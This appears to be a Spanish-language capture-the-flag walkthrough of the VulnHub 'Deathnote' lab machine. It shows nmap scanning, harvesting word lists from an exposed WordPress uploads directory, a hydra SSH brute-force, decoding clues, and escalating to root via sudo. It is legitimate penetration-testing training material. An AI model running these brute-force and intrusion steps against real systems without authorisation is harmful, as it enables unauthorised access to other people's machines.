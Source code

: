 ```yaml
---
layout: post
title: "Deathnote"
date: 2024-05-18 10:37:23
category: sample
vm: vulnhub
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnhub/vulnhub.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Deathnote </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong><a href="https://www.vulnhub.com/entry/deathnote-1,739/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnhub/Deathnote/host.png){:.margin}

**1\.** Pillamos la ip objetivo en la red.

`sudo arp-scan -l`

![img](/notas/public/img/vulnhub/Deathnote/arp.png){:.margin}

**2\.** Escaneo puertos y servicios abiertos.

`sudo nmap -p- --open -T5 -sS -sCV -Pn -n --min-rate=5000 192.168.1.60 -oN savescan`

![img](/notas/public/img/vulnhub/Deathnote/nmap.png){:.margin}

**3\.** Visito la web apache y me redirige a un dominio que no se puede resolver. 

`http://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/80.png)
![img](/notas/public/img/vulnhub/Deathnote/80redirect.png)

**4\.** Para solucionar este error añadimos el dominio en el hosts.

`nano /etc/hosts`

`192.168.1.60 deathnote.vuln`

![img](/notas/public/img/vulnhub/Deathnote/hosts.png){:.margin}

_\- Ya nos resuelve el dominio_

![img](/notas/public/img/vulnhub/Deathnote/redirectok.png){:.margin}

**5\.** Veo la pista(hint), pone que tenemos que encontrar un archivo.

`http://deathnote.vuln/wordpress/index.php/hint/`

![img](/notas/public/img/vulnhub/Deathnote/hint.png){:.margin}

**6\.** Mas abajo podemos ir al comentario de L.

![img](/notas/public/img/vulnhub/Deathnote/comment.png)
![img](/notas/public/img/vulnhub/Deathnote/commentredirect.png)

**7\.** Vemos el codigo fuente y filtramos por notes, lo tenemos.

![img](/notas/public/img/vulnhub/Deathnote/noteslink.png){:.margin}

**8\.** Voy al link pero no funciona.

`http://deathnote.vuln/wordpress/wp-content/uploads/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notesfail.png){:.margin}

**9\.** Se me da por eliminar el nombre del archivo y tengo un directorio, busco el archivo.

`http://deathnote.vuln/wordpress/wp-content/uploads/`

![img](/notas/public/img/vulnhub/Deathnote/directory.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory2.png){:.margin}
![img](/notas/public/img/vulnhub/Deathnote/directory3.png){:.margin}

**10\.** Reviso el contenido de cada archivo.

_10.1- En notes tenemos una lista de palabras_

`http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`

![img](/notas/public/img/vulnhub/Deathnote/notessee.png){:.margin}

_10.2- En user tenemos otra lista_

![img](/notas/public/img/vulnhub/Deathnote/usersee.png){:.margin}

**11\.** Me descargo todo estos archivos de forma recursiva.

`wget -r --no-parent --reject "index.html*" -q http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/wget.png){:.margin}

**12\.** Revisando la carpeta  encuentro un fichero que me da una pista.

`cd deathnote.vuln`

`ls`

`cat robots.txt`

![img](/notas/public/img/vulnhub/Deathnote/robots.png){:.margin}

**13\.** Analizando la imagen.

_13.1- Voy a la imagen en la web_

`http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/important.png){:.margin}

_13.2- Veo la data en la imagen, me da mas detalles_

`curl http://deathnote.vuln/important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/curl.png){:.margin}

_13.3- Otra opcion es descargar la imagen y leer la data_

`wget http://deathnote.vuln/important.jpg -q`

`cat important.jpg`

![img](/notas/public/img/vulnhub/Deathnote/cat.png){:.margin}

**14\.** Haciendo fuerza bruta al ssh.

_14.1- Me ubico donde los archivos notes y user_

`cd deathnote.vuln/wordpress/wp-content/uploads/2021/07`

`ls`

![img](/notas/public/img/vulnhub/Deathnote/cdfiles.png){:.margin}

_14.2- Hago fuerza bruta para tener las credenciales_

`hydra -L user.txt -P notes.txt ssh://192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/hydra.png){:.margin}

_14.3- Accedo por ssh como usuario L_

`ssh l@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshl.png){:.margin}

**15\.** Despues de indagar mucho, encuentro una carpeta en opt. 

`cd /opt`

`ls`

`cd L`

`ls`

`find`

![img](/notas/public/img/vulnhub/Deathnote/diropt.png){:.margin}

**16\.** Viendo el contenido de los archivos.

_16.1- Leendo case-file.txt_

`cat Kira-case/case-file.txt`

![img](/notas/public/img/vulnhub/Deathnote/casefile.png){:.margin}

_16.2- Leendo case.wav y hint_

`cat fake-notebook-rule/case.wav`

`cat fake-notebook-rule/hint`

![img](/notas/public/img/vulnhub/Deathnote/wavhint.png){:.margin}

**17\.** Al parecer tenemos un texto en hexadecimal y nos dice que usemos [Cyberchef](https://gchq.github.io/CyberChef/).

_17.1- Pego el hex y por debajo me detecta para decodificar_

![img](/notas/public/img/vulnhub/Deathnote/cyberchef.png){:.margin}

_17.2- Hago click y me muestra el texto decodificado_

![img](/notas/public/img/vulnhub/Deathnote/outputpass.png){:.margin}

**18\.** Accedo por ssh como kira.

`ssh kira@192.168.1.60`

![img](/notas/public/img/vulnhub/Deathnote/sshkira.png){:.margin}

**19\.** Encuentro un archivo, sigo pasos anteriores con cyberchef.

_19.1- Leo el archivo_

`ls`

`cat Kira.txt`

![img](/notas/public/img/vulnhub/Deathnote/kiratxt.png){:.margin}

_19.2- Lo analizo con cyberchef_

![img](/notas/public/img/vulnhub/Deathnote/cyberchefkira.png){:.margin}

_\- Estos directorios ya los vimos, asi que no hace falta mas nada_

**20\.** Obteniendo superusuario.

_20.1- Veo mis permisos de sudo ingresando mi contraseña_

`sudo -l`

![img](/notas/public/img/vulnhub/Deathnote/sudol.png){:.margin}

_20.2- Ya que tengo permiso general, accedo como root_

![img](/notas/public/img/vulnhub/Deathnote/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>